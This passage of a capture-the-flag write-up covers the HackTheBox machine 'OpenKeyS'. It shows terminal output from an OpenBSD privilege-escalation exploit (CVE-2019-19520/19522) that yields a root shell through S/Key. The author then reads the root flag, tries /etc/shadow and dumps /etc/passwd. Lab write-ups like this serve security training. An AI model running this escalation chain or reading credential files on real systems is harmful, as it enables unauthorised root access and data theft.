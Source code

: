 ### Root.txt

```text
openkeys$ nano .exploit.sh
openkeys$ chmod +x .exploit.sh                                                                        
openkeys$ ./.exploit.sh                                                                               
openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
[*] checking system ...
[*] system supports S/Key authentication
[*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
[*] compiling ...
[*] running Xvfb ...
[*] testing for CVE-2019-19520 ...
_XSERVTransmkdir: ERROR: euid != 0,directory /tmp/.X11-unix will not be created.
[+] success! we have auth group permissions

WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).

[*] trying CVE-2019-19522 (S/Key) ...
Your password is: EGG LARD GROW HOG DRAG LAIN
otp-md5 99 obsd91335
S/Key Password:
```

I had to enter the password the system had given me `EGG LARD GROW HOG DRAG LAIN`. After that I was given a `root` shell.  

```text
openkeys# id && hostname                                                                        
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
openkeys.htb

openkeys# cat /root/root.txt
f3a553b1697050ae885e7c02dbfc6efa

openkeys# cat /etc/shadow
cat: /etc/shadow: No such file or directory

openkeys# cat /etc/passwd
root:*:0:0:Charlie &:/root:/bin/ksh
daemon:*:1:1:The devil himself:/root:/sbin/nologin
operator:*:2:5:System &:/operator:/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/sbin/nologin
build:*:21:21:base and xenocara build:/var/empty:/bin/ksh
sshd:*:27:27:sshd privsep:/var/empty:/sbin/nologin
_portmap:*:28:28:portmap:/var/empty:/sbin/nologin
_identd:*:29:29:identd:/var/empty:/sbin/nologin
_rstatd:*:30:30:rpc.rstatd:/var/empty:/sbin/nologin
_rusersd:*:32:32:rpc.rusersd:/var/empty:/sbin/nologin
_fingerd:*:33:33:fingerd:/var/empty:/sbin/nologin
_x11:*:35:35:X Server:/var/empty:/sbin/nologin
_unwind:*:48:48:Unwind Daemon:/var/empty:/sbin/nologin
_switchd:*:49:49:Switch Daemon:/var/empty:/sbin/nologin
_traceroute:*:50:50:traceroute privdrop user:/var/empty:/sbin/nologin
_ping:*:51:51:ping privdrop user:/var/empty:/sbin/nologin
_rebound:*:52:52:Rebound DNS Daemon:/var/empty:/sbin/nologin
_unbound:*:53:53:Unbound Daemon:/var/unbound:/sbin/nologin
_dpb:*:54:54:dpb privsep:/var/empty:/sbin/nologin
_pbuild:*:55:55:dpb build user:/nonexistent:/sbin/nologin
_pfetch:*:56:56:dpb fetch user:/nonexistent:/sbin/nologin
_pkgfetch:*:57:57:pkg fetch user:/nonexistent:/sbin/nologin
_pkguntar:*:58:58:pkg untar user:/nonexistent:/sbin/nologin
```